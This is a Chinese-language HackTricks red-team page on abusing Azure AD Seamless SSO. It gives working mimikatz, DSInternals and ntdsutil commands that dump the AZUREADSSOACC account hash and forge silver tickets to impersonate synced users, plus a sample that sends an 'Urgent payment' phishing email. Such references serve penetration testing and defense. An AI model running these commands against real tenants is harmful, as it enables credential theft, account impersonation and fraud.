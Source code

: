 # 无缝单点登录

<details>

<summary><strong>从零开始学习AWS黑客攻击直到成为专家，通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**telegram群组**](https://t.me/peass)或在**Twitter**上**关注**我 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 基本信息

Azure Active Directory 无缝单点登录（Azure AD 无缝SSO）会在用户使用公司设备且连接到公司网络时自动**登录用户**。启用后，**用户无需输入密码即可登录Azure AD**，通常甚至无需输入用户名。此功能为用户提供了轻松访问基于云的应用程序的方法，无需任何额外的本地组件。

<figure><img src="../../../../.gitbook/assets/image (7) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

基本上Azure AD 无缝SSO会在用户**在本地域加入的PC上**时**登录用户**。

它由[**PHS（密码哈希同步）**](phs-password-hash-sync.md)和[**PTA（透传认证）**](pta-pass-through-authentication.md)支持。

桌面SSO使用**Kerberos**进行认证。配置时，Azure AD Connect会在本地AD中创建一个名为AZUREADSSOACC的**计算机账户**。AZUREADSSOACC账户的密码在配置期间会以**明文发送到Azure AD**。

**Kerberos票据**使用密码的**NTHash（MD4）**进行**加密**，Azure AD使用发送的密码来解密票据。

**Azure AD**公开了一个**端点**（https://autologon.microsoftazuread-sso.com）接受Kerberos**票据**。域加入的机器的浏览器将票据转发到此端点进行SSO。

### 本地 -> 云

用户AZUREADSSOACC的**密码永远不会改变**。因此，域管理员可以获取此账户的**哈希值**，然后使用它来**创建银票据**，以**任何同步的本地用户**的身份连接到Azure：
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
使用该哈希，您现在可以**生成银票**：
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:f9969e088b2c13d93833d0ce436c76dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "97B745CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
要使用银票：

1. 启动 _Mozilla Firefox_。
2. 转到 **`about:config`** 并设置 [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) 首选项为 [value](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) `https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com`
3. 导航到任何与我们AAD域集成的Web应用程序。我们将使用 [Office 365](https://portal.office.com/)，这是最常用的一个。
4. 在登录屏幕上，填写用户名，密码字段留空。然后按TAB或ENTER。

<figure><img src="../../../../.gitbook/assets/image (3) (3) (1).png" alt=""><figcaption></figcaption></figure>

#### 就是这样！你应该已经进入了！ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

#### ~~为仅云用户创建Kerberos票据~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

如果Active Directory管理员可以访问Azure AD Connect，他们可以**为任何云用户设置SID**。这样也可以为**仅云用户创建Kerberos票据**。唯一的要求是SID是一个正确的 [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\))。

{% hint style="danger" %}
现在**微软已阻止**更改仅云管理员用户的SID。\
有关信息请查看 [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

## 参考资料

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>从零开始学习AWS黑客攻击！</strong></summary>

支持HackTricks的其他方式：

* 如果您希望在HackTricks中看到您的**公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs**](https://opensea.io/collection/the-peass-family)系列
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
